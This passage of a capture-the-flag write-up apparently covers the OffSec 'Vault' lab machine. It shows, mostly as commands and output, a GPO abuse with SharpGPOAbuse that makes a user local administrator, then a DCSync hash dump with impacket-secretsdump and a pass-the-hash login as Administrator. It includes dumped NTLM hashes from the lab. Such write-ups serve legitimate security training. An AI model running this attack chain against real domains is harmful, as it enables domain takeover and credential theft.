Ah, we have [WriteOwner](https://bloodhound.specterops.io/resources/edges/write-owner) permission on the "DEFAULT DOMAIN POLICY" GPO object.

Checking further, we actually have even more permissions:



### GPO Abuse

We now have a couple of options described in [this Hacking Article](https://www.hackingarticles.in/gpo-abuse-exploiting-vulnerable-group-policy-objects/).

Here we are going for abuse with [SharpGPOAbuse](https://github.com/ReversecLabs/SharpGPOAbuse). You can find [precompiled versions here](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_Any).

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ wget https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.5_Any/SharpGPOAbuse.exe
--2026-11-15 16:35:46--  https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.5_Any/SharpGPOAbuse.exe
Resolving github.com (github.com)... 172.130.201.80
Connecting to github.com (github.com)|172.130.201.80|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/Flangvik/SharpCollection/refs/heads/master/NetFramework_4.5_Any/SharpGPOAbuse.exe [following]
--2026-11-15 16:35:46--  https://raw.githubusercontent.com/Flangvik/SharpCollection/refs/heads/master/NetFramework_4.5_Any/SharpGPOAbuse.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 71168 (70K) [application/octet-stream]
Saving to: ‘SharpGPOAbuse.exe’

SharpGPOAbuse.exe                              100%[=================================================================================================>]  69.50K  --.-KB/s    in 0.03s   

2026-11-15 16:35:46 (2.42 MB/s) - ‘SharpGPOAbuse.exe’ saved [71168/71168]


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ file SharpGPOAbuse.exe 
SharpGPOAbuse.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

We upload it via our Evil-WinRM connection.

```bash
*Evil-WinRM* PS C:\Users\anirudh\Documents> upload SharpGPOAbuse.exe
 
Info: Uploading /mnt/hgfs/OffSec_PG/PG_Practice/Advanced/Vault/SharpGPOAbuse.exe to C:\Users\anirudh\Documents\SharpGPOAbuse.exe
 
Data: 94888 bytes of 94888 bytes copied
 
Info: Upload successful!
*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

And then promote the `anirudh` user to be a local administrator.

```bash
*Evil-WinRM* PS C:\Users\anirudh\Documents> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "DEFAULT DOMAIN POLICY"
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[+] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[+] GUID of "DEFAULT DOMAIN POLICY" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
*Evil-WinRM* PS C:\Users\anirudh\Documents> gpupdate /force
Updating policy...


Computer Policy update has completed successfully.

User Policy update has completed successfully.


*Evil-WinRM* PS C:\Users\anirudh\Documents> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.

*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

### Perform DCSync attack

Now we can use our privileges to dump all NTLM-hashes with Impacket.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ impacket-secretsdump -just-dc-ntlm vault/anirudh:SecureHM@$TARGET_IP 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54ff9c380cf1a80c23467ff51919146e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c660d4355b25d08a42130cb43d93418c:::
anirudh:1103:aad3b435b51404eeaad3b435b51404ee:74c8075e8506407ebe49bb8de63f6057:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:c411f1b2edbaabf36060fc59a49b67d3:::
[*] Cleaning up... 
```

Excellent!

### Get an Administrator shell

Then we can pass-the-hash with the Administrator's NTLM-hash.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ evil-winrm -i $TARGET_IP -u Administrator -H '54ff9c380cf1a80c23467ff51919146e'
 
Evil-WinRM shell v3.7
 
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vault\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

### Get the root flag

Finally, we can get the root flag.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\proof.txt
a<REDACTED>c
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

For additional information, please see the references below.

## References

- [BloodHound - Docs](https://bloodhound.specterops.io/home)
- [BloodHound - GitHub](https://github.com/SpecterOps/BloodHound)
- [BloodHound - Homepage](https://specterops.io/open-source-tools/bloodhound-community-edition/)
- [BloodHound - Kali Tools](https://www.kali.org/tools/bloodhound/)
- [BloodHound - Query Library](https://queries.specterops.io/)
- [DCSync - HackTricks](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)
- [Domain Name System - Wikipedia](https://en.wikipedia.org/wiki/Domain_Name_System)
- [Evil-WinRM - GitHub](https://github.com/Hackplayers/evil-winrm)
- [Evil-WinRM - Kali Tools](https://www.kali.org/tools/evil-winrm/)
- [ExifTool - Homepage](https://exiftool.org/)
- [exiftool - Linux manual page](https://linux.die.net/man/1/exiftool)
- [ExifTool - Wikipedia](https://en.wikipedia.org/wiki/ExifTool)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [GPO Abuse: Exploiting Vulnerable Group Policy Objects - Hacking Articles](https://www.hackingarticles.in/gpo-abuse-exploiting-vulnerable-group-policy-objects/)
- [gpupdate - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/gpupdate)
- [Group Policy - Wikipedia](https://en.wikipedia.org/wiki/Group_Policy)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [Impacket - GitHub](https://github.com/fortra/impacket)
- [Impacket - Homepage](https://www.coresecurity.com/core-labs/impacket)
- [Impacket - Kali Tools](https://www.kali.org/tools/impacket/)
- [Impacket-scripts - Kali Tools](https://www.kali.org/tools/impacket-scripts/)
- [Kerberos (protocol) - Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [Lightweight Directory Access Protocol - Wikipedia](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [Net localgroup - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc725622(v=ws.11))
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [ntlm_theft - GitHub](https://github.com/Greenwolf/ntlm_theft)
- [nxc-sweep - GitHub](https://github.com/corey-farley/nxc-sweep)
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [Responder - GitHub](https://github.com/lgandx/Responder)
- [Responder - Kali Tools](https://www.kali.org/tools/responder/)
- [Responder - Wiki](https://github.com/lgandx/Responder/wiki)
- [rockyou.txt wordlist - GitHub](https://github.com/zacheller/rockyou)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [SharpCollection - GitHub](https://github.com/Flangvik/SharpCollection)
- [SharpGPOAbuse - GitHub](https://github.com/ReversecLabs/SharpGPOAbuse)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [vi - Linux manual page](https://man7.org/linux/man-pages/man1/vi.1p.html)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [What Is the Global Catalog? - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728188(v=ws.10))
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [Windows Remote Management - Wikipedia](https://en.wikipedia.org/wiki/Windows_Remote_Management)
- [WriteOwner Permission - BloodHound Docs](https://bloodhound.specterops.io/resources/edges/write-owner)
